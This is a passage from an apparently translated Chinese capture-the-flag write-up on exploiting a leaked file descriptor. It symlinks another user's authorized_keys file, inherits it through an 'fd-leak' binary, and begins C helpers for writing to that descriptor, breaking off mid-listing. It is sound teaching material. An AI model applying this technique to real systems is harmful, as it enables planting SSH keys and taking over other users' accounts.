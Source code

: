 ### <a class="reference-link" name="%E6%AD%A5%E9%AA%A42%EF%BC%9A%E5%9C%A8%E5%AD%90%E8%BF%9B%E7%A8%8B%E4%B8%AD%E8%BF%90%E8%A1%8C%E4%BB%A3%E7%A0%81"></a>步骤2：在子进程中运行代码

运行代码很容易。再次说明，这在星云挑战中更加困难。我们可以看到我们希望在/proc/self/fd中列出的文件句柄。文件描述符3：

```
bob@challenge:~$ ln -s ~tom/.ssh/authorized_keys /tmp/tmpfile

bob@challenge:~$ ls -l /tmp/tmpfile
lrwxrwxrwx 1 bob bob 30 Apr 12 12:25 /tmp/tmpfile -&gt; /home/tom/.ssh/authorized_keys
bob@challenge:~$ ./fd-leak bash
subshell...
bob@challenge:~$ ls -l /proc/self/fd
total 0
lrwx------ 1 bob bob 64 Apr 12 12:26 0 -&gt; /dev/pts/1
lrwx------ 1 bob bob 64 Apr 12 12:26 1 -&gt; /dev/pts/1
lrwx------ 1 bob bob 64 Apr 12 12:26 2 -&gt; /dev/pts/1
lrwx------ 1 bob bob 64 Apr 12 12:26 3 -&gt; /home/tom/.ssh/authorized_keys
lr-x------ 1 bob bob 64 Apr 12 12:26 4 -&gt; /proc/54947/fd
```

所以我们只能“echo key &gt; /proc/self/fd/3”？不是，那只是个符号链接，一个指向不存在的文件的符号链接。它指向的是一个我们没有权限创建文件的地方。让我们确认一下？

```
bob@challenge:~$ ls -l /home/tom/.ssh/authorized_keys
-rw------- 1 tom bob 15 Apr 12 12:25 /home/tom/.ssh/authorized_keys
bob@challenge:~$ id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
bob@challenge:~$ echo &gt; /home/tom/.ssh/authorized_keys
bash: /home/tom/.ssh/authorized_keys: Permission denied
bob@challenge:~$ echo &gt; /tmp/tmpfile
bash: /tmp/tmpfile: Permission denied
bob@challenge:~$ echo &gt; /proc/self/fd/3
bash: /proc/self/fd/3: Permission denied
```

我们需要写入文件描述符3…那么，是否有CAT版本支持文件描述符呢？就我所知没有，让我们编写一些小实用程序来帮助我们掌握对继承文件句柄的访问。我们将编写3个工具：
- read-使用读函数从特定的文件描述符读取一组字节数。
- write-将我们选择的字符串写入特定的文件描述符。
- lseek-这样我们就可以知道读/写的位置
下面是(非常简单的)演示的代码：

```
bob@challenge:~$ cat read.c
#include &lt;unistd.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;

int main(int argc, char *argv[]) `{`
 char buf[1024];
 memset(buf, 0, 1024);
 int r = read(atoi(argv[1]), buf, 10);
 printf("Read %d bytesn", r);
 write(1, buf, 10);
`}`

bob@challenge:~$ gcc -o read read.c
bob@challenge:~$ cat write.c
#include &lt;unistd.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;

int main(int argc, char *argv[]) `{`
 printf("writing %s to fd %sn", argv[2], argv[1]);
```